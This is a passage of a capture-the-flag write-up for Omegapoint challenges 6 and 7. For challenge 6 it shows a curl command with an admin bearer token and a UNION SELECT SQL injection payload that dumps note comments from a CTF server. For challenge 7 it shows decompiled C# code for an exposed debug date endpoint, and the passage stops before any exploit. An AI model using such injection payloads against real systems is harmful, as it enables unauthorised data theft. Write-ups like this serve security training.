 `OMEGAPOINT{1da92dcfcbe4122b3e99cc25dc6d71d8}`

## [6] Dumping the Barrel

### Description

> As you explore the web application, you may find a way to access notes. However, even with admin privileges, accessing the note comments seems to not be possible.

### Solution

From the previous findings, we know that the login endpoint enables the extraction of the entire database. Extracting the all values in the notes table, one can find the flag hidden as a comment on a note. Additionally, the decompiled source code from the DLL file revealed a filter parameter on the notes endpoint, vulnerable to SQL injection due to the lack of using parameterized queries as well. An illustrative payload showcasing the retrieval of comments from the notes table, including the flag, is demonstrated below:


```sh
curl -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywidXNlcm5hbWUiOiJhZG1pbiIsImlzQWRtaW4iOjEsImlhdCI6MTcwMTE3MzQ4NiwiZXhwIjoxNzMyNzA5NDg2fQ.TFzllamMp0d7Rv9eIdRvvJHWr8-dk0h2iZSY1Z6nV5c' 'http://51.120.250.68/api/notes?token=OMEGAPOINT%7B7c0e12caf742bf36e604250fa8cc70fd%7D&filter=1=0%20UNION%20SELECT%201,2,comment%20FROM%20notes'
```

![sqli on the notes-endpoint containing the flag](https://hackmd.io/_uploads/r1eVAp9da.png)


### Flag

`OMEGAPOINT{d4fba280dd6162ca55bdcb26feb12f05}`

## [7] That's right, you can read!

### Description

> Certain debugging endpoints of the server have been exposed through the library. Can you exploit them to your advantage?

### Solution
Through the decompiled source code, we can also see a debug endpoint at `/api/debug/date?format=`:

```c#
[AsyncStateMachine(typeof(<DebugDate>d__7))]
public async System.Threading.Tasks.Task<string> DebugDate()
{
    //IL_0002: Unknown result type (might be due to invalid IL or missing references)
    //IL_0007: Unknown result type (might be due to invalid IL or missing references)
    HttpRequestMessage val = new HttpRequestMessage(HttpMethod.Get, "/api/debug/date?format=%2B%25A%2C%20%25d.%25b%20%25Y%20-%20%25H%3A%25M%3A%25S");
    ((HttpHeaders)val.Headers).Add("Authorization", "Bearer " + stateService.Token);
    HttpResponseMessage val2 = (await httpClient.SendAsync(val)) ?? throw new System.Exception();
    if (val2.IsSuccessStatusCode)
    {
        return ((await JsonSerializer.DeserializeAsync<DataResponse>(await val2.Content.ReadAsStreamAsync(), (JsonSerializerOptions)null, default(CancellationToken))) ?? throw new System.Exception("Failed to deserialize response.")).Data ?? throw new System.Exception();
    }
    return "";
}
```
